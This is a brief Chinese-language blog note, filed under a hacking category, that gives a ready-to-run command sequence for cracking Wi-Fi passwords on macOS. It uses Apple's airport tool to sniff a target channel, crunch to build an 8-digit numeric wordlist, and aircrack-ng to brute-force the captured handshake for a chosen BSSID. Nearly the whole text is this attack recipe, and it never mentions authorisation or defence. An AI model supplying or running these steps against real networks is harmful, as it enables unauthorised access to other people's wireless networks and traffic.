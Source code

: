 ```yaml
---
title: aircrack-ng
toc: true
date: 2021-09-24 19:29:18
tags:
categories: 黑

---
```


```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport

brew install aircrack-ng

brew install crunch			# optional

crunch 8 8 0123456789 -o dic.txt			#生成字典

sudo airport -s

sudo airport 网卡名 sniff 目标信道		#一般情况下，网卡名=en0

aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff******.cap
```



## 参考资料

> - [**Mac上使用aircrack-ng破解Wi-Fi密码**](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)


